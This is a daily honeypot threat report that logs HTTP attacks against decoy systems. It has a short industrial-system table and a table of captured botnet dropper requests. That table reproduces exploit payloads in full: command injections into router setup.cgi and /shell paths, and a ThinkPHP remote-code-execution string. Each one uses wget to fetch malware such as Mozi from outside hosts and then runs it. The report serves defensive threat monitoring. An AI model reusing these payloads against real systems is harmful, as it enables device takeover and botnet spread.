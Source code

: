 ```yaml
---
title: "Report: 2025-03-16 "
date: 2025-03-16
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-16
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| CN               | Georgia            |
| PT               | Georgia            |
| CN               |                    |
| DE               |                    |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                       |
|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 27.0.217.27    | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                         |
| 116.89.94.176  | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                                                                                                      |
| 141.98.11.27   | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.134.201/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.134.201/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 204.76.203.18  | GET /wget HTTP/1.1                                                                                                                                                                                                                                                                                            |
| 139.5.0.67     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                     |
| 84.195.192.75  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 118.254.150.10 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 167.114.86.185 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |
| 101.69.248.251 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 220.179.1.88   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
